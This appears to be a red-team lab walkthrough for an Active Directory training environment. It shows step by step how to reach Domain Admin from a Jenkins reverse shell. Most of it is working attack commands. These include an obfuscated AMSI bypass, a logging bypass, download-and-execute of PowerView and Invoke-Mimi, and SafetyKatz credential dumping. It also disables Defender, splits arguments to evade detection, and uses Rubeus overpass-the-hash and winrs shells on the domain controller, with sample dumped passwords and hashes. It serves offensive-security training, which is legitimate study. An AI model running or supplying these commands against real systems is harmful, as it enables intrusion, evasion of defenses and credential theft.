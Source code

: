 # LO 7

Identify a machine in the target domain where a Domain Admin session is available.

Compromise the machine and escalate privileges to Domain Admin

* Using access to dcorp-ci
* Using derivative local admin

We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.

First bypass Enhanced Script Block Logging so that the AMSI bypass is not logged.&#x20;

The below command bypasses Enhanced Script Block Logging:

```powershell
c:\AD\Tools\hfs.exe C:\AD\Tools\sbloggingbypass.txt
```

```
iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)
```

Use the below command to bypass AMSI:

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Now, download and execute **PowerView** in memory of the reverse shell and run **FindDomainUserLocation**. Note that, Find-DomainUserLocation may take many minutes to check all the machines in the domain:

```powershell
c:\AD\Tools\hfs.exe C:\AD\Tools\PowerView.ps1
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
Find-DomainUserLocation

<# Output example:
UserDomain : dcorp
UserName : svcadmin
ComputerName : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress : 172.16.4.44
SessionFrom :
SessionFromName :
LocalAdmin :
[snip]#>
```

There is a domain admin session on dcorp-mgmt server.

We can abuse this using [winrs ](lo-7.md#using-winrs)or [PowerShell Remoting](lo-7.md#using-powershell-remoting).

## Abusing domain admin session on dcorp-mgmt&#x20;

### Using winrs

Check if we can execute commands on dcorp-mgmt server and if the **winrm** port is open:

```
winrs -r:dcorp-mgmt hostname;whoami
```

We would now run **SafetyKatz.exe** on dcorp-mgmt to extract credentials from it. For that, we need to copy Loader.exe on dcorp-mgmt. Let's download **Loader.exe** on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt.

Run the following command on the reverse shell:

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Loader.exe
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

Now, copy the Loader.exe to dcorp-mgmt:

```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Using winrs, add the following port forwarding on dcorp-mgmt to avoid detection on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

Load and execute SafetyKatz on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmtC:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

Load and execute SafetyKatz.exe on dcorp-mgmt:

```
c:\AD\Tools\hfs.exe C:\ad\Tools\SafetyKatz.exe
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa:ekeys exit
```

{% hint style="danger" %}
The last command above could not work due to Windows Defender which can block SafeKatz execution, so we need to pass encoded arguments using **Safety.bat**
{% endhint %}

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Safety.bat

```

{% hint style="info" %}
SAfety.bat is ready but it can be generated using ArgSplit.bat and passing the arguments that need encoding:

<pre><code>C:\AD\Tools>ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: <a data-footnote-ref href="#user-content-fn-1">sekurlsa::ekeys</a>
</code></pre>
{% endhint %}

Download the batch file on dcorp-ci. Run the below commands on the reverse shell:

```
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

Now, copy the Safety.bat to dcorp-mgmt:

```
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

Run Safety.bat on dcorp-mgmt that use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

Example output:

```
Authentication Id : 0 ; 61671 (00000000:0000f0e7)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 2/21/2024 4:32:02 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       [...]
```

### Using PowerShell Remoting

Check if we can run commands on dcorp-mgmt using PowerShell remoting.

```
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let's use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin "svcadmin".&#x20;

```
c:\AD\Tools\hfs.exe C:\ad\Tools\Invoke-Mimi.ps1
iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Now, to use Invoke-Mimi on dcorp-mgmt, we must disable AMSI there. Please note that we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt:

```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

```
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

Example output:

```
[snip]
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
	* Username : svcadmin
	* Domain : DOLLARCORP.MONEYCORP.LOCAL
	* Password : (null)
	* Key List :
 aes256_hmac
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
rc4_hmac_old b38ff50264b74508085d82c69794a4d8
rc4_md4 b38ff50264b74508085d82c69794a4d8
rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
[snip]
```

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Note that we can use whatever tool we want (Invoke-Mimi, SafetyKatz, Rubeus etc.)

We will use Rubeus in this case. Note that we are passing encoded arguments to Loader to avoid detection.

Run the below command from an **elevated CMD shell** from our local machine:

```
C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
```

Run the above commands in the same command prompt session:

```
C:\Windows\system32>set "z=t"
C:\Windows\system32>set "y=g"
C:\Windows\system32>set "x=t"
C:\Windows\system32>set "w=k"
C:\Windows\system32>set "v=s"
C:\Windows\system32>set "u=a"
C:\Windows\system32>set "Pwn=%u%%v%%w%%x%%y%%z%"
```

Using Rubeus:

```
echo %Pwn%
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

A new shell will spawn. Try accessing the domain controller from the new process:

```
winrs -r:dcorp-dc cmd /c set username
```

To get a shell:

```
winrs -r:dcorp-dc cmd
```

## Derivative Local Admin



[^1]: 
